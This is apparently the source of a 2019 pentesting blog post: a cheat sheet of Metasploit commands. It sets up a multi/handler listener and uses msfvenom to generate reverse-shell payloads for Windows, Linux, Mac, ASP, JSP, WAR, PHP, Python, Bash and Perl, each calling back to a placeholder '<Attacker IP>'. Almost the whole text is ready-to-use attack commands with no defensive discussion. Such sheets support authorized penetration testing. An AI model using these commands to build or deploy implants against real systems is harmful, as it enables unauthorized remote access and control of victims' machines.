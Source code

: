 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - msfvenom"
date:   2019-07-07 16:08:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
  - Active Directory Hacking
tags:
  - msfvenom
  - metasploit
---
```

<pre>
<B> Handler on Msfconsole </B>
  - use exploit/multi/handler
  - set PAYLOAD windows/meterpreter/reverse_tcp
  - set LHOST localhost
  - set LPORT 4444
  - set ExitOnSession false
  - exploit -j -z

<B> Payload creation with Direct Access to OS </B>
- Windows:
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f exe -o payload.exe
  
- Linux:
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f elf > payload.elf
  
- Mac:
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f macho > payload.macho

<B> Payload creation to exploit through web</B>

- ASP:
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f asp > payload.asp
  
- JSP:
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f jsp > payload.jsp
  
- WAR:
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f war > payload.war

- PHP:
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.php
  
<B> Payload creation to exploit via scripting</B>
  
- Python:
  - msfvenom -p cmd/unix/reverse_python LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.py

- Bash:

  - msfvenom -p cmd/unix/reverse_bash LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.sh

- Perl:
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Attacker IP> LPORT=<Handler Port> -f raw > shell.pl

</pre>
